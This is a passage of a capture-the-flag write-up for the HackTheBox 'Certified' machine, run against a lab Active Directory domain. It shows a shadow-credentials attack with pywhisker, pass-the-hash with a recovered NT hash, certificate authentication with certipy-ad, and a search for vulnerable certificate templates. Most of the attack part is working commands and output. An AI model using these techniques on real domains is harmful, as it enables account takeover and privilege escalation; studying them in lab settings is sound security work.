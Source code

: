 Finally we were able to gain foothold! Let's grab user flag and continue escalation.
```
*Evil-WinRM* PS C:\Users\management_svc\Documents> cat C:\Users\management_svc\Desktop\user.txt
********************************
```

# Priviliges escalation
We will continue with last step of our initial plan and add shadow credentials for `ca_operator`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ python3 ~/Tools/pywhisker/pywhisker/pywhisker.py -d certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584 --target ca_operator --action add
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 81ac6fd4-0e25-ea64-5bc0-683dc3d2b2e6
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: WKwlYU2h.pfx
[+] PFX exportiert nach: WKwlYU2h.pfx
[i] Passwort für PFX: yLOLHgAdtV548l38lhs0
[+] Saved PFX (#PKCS12) certificate & key at path: WKwlYU2h.pfx
[*] Must be used with password: yLOLHgAdtV548l38lhs0
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

And once again we will retrieve NTLM hash this time for `ca_operator`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ certipy-ad cert -export -pfx WKwlYU2h.pfx -password yLOLHgAdtV548l38lhs0 -out ca_operator.pfx && \
certipy-ad auth -pfx ca_operator.pfx -username ca_operator -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing PFX to 'ca_operator.pfx'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Got hash for 'ca_operator@certified.htb': aad3b435b51404eeaad3b435b51404ee:b4b86f45c6018f1b664f70805f45d8f2
```

With `ca_operator` hash obtained we can lookup vulnerable certificates.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ certipy-ad find -u ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[!] Failed to resolve: DC01.certified.htb
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: [Errno -2] Name or service not known
```